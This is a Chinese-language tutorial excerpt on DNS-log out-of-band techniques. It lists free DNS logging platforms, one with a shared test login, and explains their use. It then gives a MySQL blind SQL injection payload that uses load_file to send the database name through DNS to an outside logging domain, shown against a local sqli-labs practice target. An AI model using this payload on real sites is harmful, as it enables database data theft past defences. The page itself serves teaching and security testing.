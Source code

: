 

## 三大免费dns解析记录网站介绍

​		http://www.dnslog.cn

​		http://admin.dnslog.link 账号密码:test/123456

​		http://ceye.io



DNSLOG回显Demo

这样说原理很抽象，下面通过实际例子看下。有时候http://ceye.io访问太慢，推荐使用http://www.dnslog.cn平台或者t00ls的DNSLOG平台。下面以http://ceye.io 为例子。



http://ceye.io 这是一个免费的记录dnslog的平台，我们注册后到控制面板会给你一个二级域名：xxx.ceye.io,当我们把注入信息放到三级域名那里，后台的日志会记录下来

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog盲打解析.png)



# sql盲注

不论是布尔型盲注还是时间型盲注，都需要频繁的跑请求才能够获取数据库中的值，在现代 WAF 的防护下，很可能导致 IP 被 ban。我们可以结合 DNSlog 完美快速的将数据取出。如遇到 MySql 的盲注时，可以利用内置函数 load_file() 来完成 DNSlog，load_file()不仅能够加载本地文件，同时也能对URL发起请求。

```sql
payload:1' and load_file(concat('\\',(select database()),'.123.test.dnslog.link\abc'))--+http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and load_file(concat('\\',(select database()),'.52i39v.ceye.io\abc'))--+
```

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-slq盲打示例.png)
